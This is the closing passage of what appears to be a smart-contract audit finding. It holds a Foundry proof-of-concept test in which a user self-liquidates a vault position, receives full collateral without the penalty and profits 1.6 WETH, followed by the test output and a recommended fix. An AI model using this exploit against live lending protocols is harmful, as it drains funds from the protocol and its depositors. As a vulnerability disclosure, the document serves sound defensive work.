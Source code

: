 ```javascript
        console.log("Amount user is repaying: ", repayFull);
        mockWETH.approve(address(vault), repayFull);

        // fully liquidate position
        wethBefore = mockWETH.balanceOf(address(this));
        uint collateralBefore = token.balanceOf(address(this));
        vault.liquidatePosition(position, repayFull);
        uint256 wethSpent = wethBefore - mockWETH.balanceOf(address(this));
        uint256 collateralReceived = token.balanceOf(address(this)) - collateralBefore;
        console.log("weth spent: ", wethSpent);
        console.log("collateral received: ", collateralReceived);
        
        console.log("Total WETH earned: ", wethBorrowed - wethSpent);
        console.log("collateral lost: ", collateralDeposited -  collateralReceived);

        // confirm that collateral in position is 0
        (collateral, debt, , , , ) = vault.positions(position);
        console.log("collateral remaining in position: ", collateral);
    }
```

```text
[PASS] testSelfLiquidateProfit() (gas: 3761322)
Logs:
  weth borrowed:  80000000000000000000
  collateral deposited:  100000000000000000000
  Amount of debt user must repay:  80000000000000000000
  Amount user is repaying:  78400000000000000000
  weth spent:  78400000000000000000
  collateral received:  100000000000000000000
  Total WETH earned:  1600000000000000000
  collateral lost:  0
  collateral remaining in position:  0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.46ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

As displayed in the coded PoC, since the user receives the full amount of collateral without the penalty applied to the amount they receive, the user profits 1.6e18 WETH with the attack scenario described above.

### Tools Used

Foundry

### Recommended Mitigation Steps

Apply the penalty to `repayAmount` when calculating the amount of collateral to give to the caller. In addition, ensure that the protocol applies a high enough penalty such that self-liquidators cannot profit from this attack.

